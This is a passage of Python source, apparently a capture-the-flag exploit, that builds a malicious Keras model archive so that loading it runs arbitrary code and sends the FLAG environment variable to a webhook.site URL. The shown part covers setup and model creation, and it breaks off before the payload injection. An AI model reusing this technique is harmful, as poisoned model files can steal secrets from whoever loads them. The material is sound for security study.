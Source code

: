 ```python

will execute arbitrary Python code to exfiltrate the FLAG environment variable

to a specified webhook URL.

"""

if WEBHOOK_URL == "https://webhook.site/YOUR_WEBHOOK_UUID":

print("[!] ERROR: Please configure WEBHOOK_URL in the script.")

print(" This script will not generate a functional exploit without your details.")

return

  

print(f"[*] Creating malicious Keras archive: {output_filename}")

print(f"[*] Payload configured to exfiltrate FLAG to: {WEBHOOK_URL}")

  

# Step 1: Create a dummy Keras model. Its functionality doesn't matter,

# as we're only interested in its structure to inject our payload.

model = keras.Sequential([

keras.layers.Input(shape=(1,)),

keras.layers.Dense(1)

])

model.compile(optimizer='adam', loss='mse')

  

# Step 2: Save the dummy model temporarily. This generates the basic

# .keras archive structure (a zip file containing config.json, metadata, etc.).

temp_model_path = "temp_model.keras"

try:

model.save(temp_model_path)

print(f"[*] Temporary model saved to {temp_model_path}")

except Exception as e:

print(f"[!] Error saving temporary model: {e}")

return

  

# Step 3: Unzip the temporary .keras archive to access and modify its contents.

temp_extracted_dir = "temp_extracted_model"

```